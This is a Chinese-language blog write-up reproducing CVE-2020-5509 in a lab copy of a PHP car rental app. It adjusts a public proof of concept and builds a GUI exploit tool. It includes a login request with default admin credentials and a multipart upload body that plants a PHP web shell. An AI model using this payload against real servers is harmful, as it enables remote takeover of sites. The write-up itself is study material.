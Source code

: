 ```yaml
---
title: CVE-2020-5509 Repetition
published: true
---
```

# [](#header-1)零.前言:
下午在Github上逛,找代码学习,突然瞥到CVE-2020-5509,看到了外国友人写的POC
原址:https://github.com/FULLSHADE/CVE-2020-5509-POC
于是搭建了环境,进行复现!
# [](#header-2)一.环境搭建:
搭建环境:
```
Windows server 2012 R2 阿帕奇 PHP7.5
```
官方源码:https://phpgurukul.com/car-rental-project-php-mysql-free-download/
搭建时需要新建一个数据库,然后将官方给的.sql数据文件导入到那个库里!
之后配置config.php信息,(要配置两个,一个是\includes\config.php,一个是\admin\config.php)
搭建完成图:
![](https://m4tir.github.io/assets/cve-2020-5509/1.png) 
之后就可以开始愉快地复现了!
# **二.复现过程:**
我们先用国外人写的poc打一下靶场:
```
python CVE-2020-5509.py 192.168.1.5(目标ip)
```
![](https://m4tir.github.io/assets/cve-2020-5509/2.png) 
```
[!] Failed to authenticate
```
**难道失败了?我重新看了一遍国外人写的poc,原来有处坑!**
![](https://m4tir.github.io/assets/cve-2020-5509/3.png) 
```
/carrentalproject/carrental/admin/changeimage1.php ##我们实际上是搭建在根目录的，不知道他这个/carrentalproject/carrental/目录是怎么来的，正是因为如此，才会获取不到tok值!
```
我们改一下poc!
![](https://m4tir.github.io/assets/cve-2020-5509/4.png) 
**ba把路径中的/carrentalproject/carrental去掉,再试试!**
![](https://m4tir.github.io/assets/cve-2020-5509/5.png) 
**ok，成功了!(但是它的终端有点奇怪,不管他)**
**国外友人的工具我用的不适手,于是便打算自己写一个图形化的工具!**
# **三.工具编写(.e):**
**话不多说，先构建界面,再导入一个精易模块:**
![](https://m4tir.github.io/assets/cve-2020-5509/6.png) 
**然后双击"Getshell"按钮，进入代码界面!**
**Getshell的第一步是要获取到Cookie，来进行鉴权文件上传!**
![](https://m4tir.github.io/assets/cve-2020-5509/7.png) 
```
curl -H "http://website/admin/index.php/" -D "username=admin&password=Test@12345&login="
```
**然后就通过鉴权文件上传来进行getshell**
![](https://m4tir.github.io/assets/cve-2020-5509/8.png) 
**上传包:**
```
--I am lonely
Content-Disposition: form-data; name="img1"; filename="test.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]); ?>
--I am lonely
Content-Disposition: form-data; name="update"

--I am lonely

```
**协议头:**
```
Content-Type: multipart/form-data; boundary="I am lonely"
```
然后尝试一下:
![](https://m4tir.github.io/assets/cve-2020-5509/9.png) 
**成功上传!**
**源码就不发了,因为所有代码就这几行:**
![](https://m4tir.github.io/assets/cve-2020-5509/10.png) 
**end！**

参考文章:
```
https://www.anquanke.com/vul/id/1894422
https://govanguard.com/threat-center/2020/01/13/car-rental-project-1-0-remote-code-execution/
http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202001-437
```
